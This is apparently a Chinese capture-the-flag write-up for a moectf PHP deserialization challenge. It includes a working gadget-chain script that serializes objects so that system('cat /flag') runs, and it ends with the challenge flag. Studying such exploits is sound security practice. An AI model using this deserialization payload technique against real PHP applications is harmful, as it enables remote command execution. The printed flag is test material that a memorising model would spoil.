 # Web-19｜第十九章 星穹真相·补天归源

## 碎碎念

反序列化 3.0
***
## Writeup

更难的反序列化，需要构造调用链，阅读代码，关键在于 `__Check` 函数中的 `$name($age);` ，我们可以尝试构造 `$name` 为 `system` 来执行系统命令，一步一步往上构造调用：

```php
<?php
class PersonA {
    public $name;
    public $id;
    public $age;
}
class PersonC {
    public $name;
    public $id;
    public $age;
}

$pc = new PersonC();
$pc->name = 'system';
$pc->age = "";
$pa = new PersonA();
$pa->name = $pc;
$pa->id = '__Check';
$pa->age = 'cat /flag';
echo urlencode(serialize($pa));
?>
```

传入参数 person 得到 flag：

![](../../../../assets/Pasted%20image%2020251029200506.png)

最终 flag：`moectf{4a7cdb12-80bf-5223-7501-ffe90c04a1cb}`